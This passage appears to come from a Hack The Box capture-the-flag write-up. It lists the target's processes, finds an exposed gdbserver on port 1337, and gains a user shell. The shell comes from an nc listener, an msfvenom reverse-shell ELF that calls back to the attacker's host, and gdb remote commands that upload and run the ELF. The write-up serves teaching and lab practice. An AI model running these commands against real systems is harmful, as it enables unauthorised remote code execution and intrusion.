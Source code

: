 ```
         CMD: /usr/lib/policykit-1/polkitd--no-debug
* Process 973:
         CMD: /usr/lib/policykit-1/polkitd--no-debug
* Process 974:
         CMD: /usr/sbin/mysqld
* Process 975:
         CMD: (sd-pam)
* Process 990:
         CMD: /usr/sbin/apache2-kstart
* Process 991:
         CMD: /usr/sbin/apache2-kstart
* Process 993:
         CMD: /usr/sbin/apache2-kstart
* Process 994:
         CMD: bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
* Process 995:
         CMD: gdbserver--once0.0.0.0:1337/bin/true
* Process 999:
         CMD: /bin/true
* Process 1000:
         CMD: /usr/sbin/apache2-kstart
```

We can see a bunch of process in the machine.
We can notice the a gbd server is running on the 1337 port.

We can google search about this process. In this [HackTricks Post][HackTricks GdbServer] they explain us how to pentest and exploit this service.


### Gaining User Access

First we are going to set up a reverse shell at 4444:
```bash
nc -lvnp 4444
```

Second, we are going to follow the steps posted in the [guide][HackTricks GdbServer]:
```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TUN0_IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote $MACHINE_IP:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```
POUM!<BR>
Now we got a shell as *user*.
```bash
whoami
user
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/dt.sh
[Bash script list]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/list_process.sh
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337